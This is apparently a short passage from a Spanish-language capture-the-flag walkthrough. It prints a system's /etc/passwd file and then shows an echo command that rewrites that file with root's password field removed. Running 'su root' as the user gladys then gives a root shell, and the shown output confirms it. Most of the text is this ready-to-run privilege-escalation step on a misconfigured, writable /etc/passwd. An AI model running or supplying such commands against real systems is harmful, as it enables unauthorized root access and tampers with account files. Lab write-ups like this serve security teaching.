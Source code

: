 ```
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/run/ircd:/usr/sbin/nologin
_apt:x:42:65534::/nonexistent:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
ubuntu:x:1000:1000:Ubuntu:/home/ubuntu:/bin/bash
systemd-network:x:998:998:systemd Network Management:/:/usr/sbin/nologin
systemd-timesync:x:996:996:systemd Time Synchronization:/:/usr/sbin/nologin
messagebus:x:100:101::/nonexistent:/usr/sbin/nologin
ftp:x:101:103:ftp daemon,,,:/srv/ftp:/usr/sbin/nologin
systemd-resolve:x:995:995:systemd Resolver:/:/usr/sbin/nologin
pingu:x:1001:1001::/home/pingu:/bin/bash
gladys:x:1002:1002::/home/gladys:/bin/bash
```
Vale, ahora existen varias posibles soluciones pero la mas facil seria la de quitar la "x" al usuario "root" y guardarlo en el archivo "/etc/passwd":
```
echo 'root::0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/run/ircd:/usr/sbin/nologin
_apt:x:42:65534::/nonexistent:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
ubuntu:x:1000:1000:Ubuntu:/home/ubuntu:/bin/bash
systemd-network:x:998:998:systemd Network Management:/:/usr/sbin/nologin
systemd-timesync:x:996:996:systemd Time Synchronization:/:/usr/sbin/nologin
messagebus:x:100:101::/nonexistent:/usr/sbin/nologin
ftp:x:101:103:ftp daemon,,,:/srv/ftp:/usr/sbin/nologin
systemd-resolve:x:995:995:systemd Resolver:/:/usr/sbin/nologin
pingu:x:1001:1001::/home/pingu:/bin/bash
gladys:x:1002:1002::/home/gladys:/bin/bash' > /etc/passwd
```
Si ahora escribimos "su root" entrariamos directamente:
```
gladys@2f0c6287c77b:/$ su root

root@2f0c6287c77b:/# whoami
root

```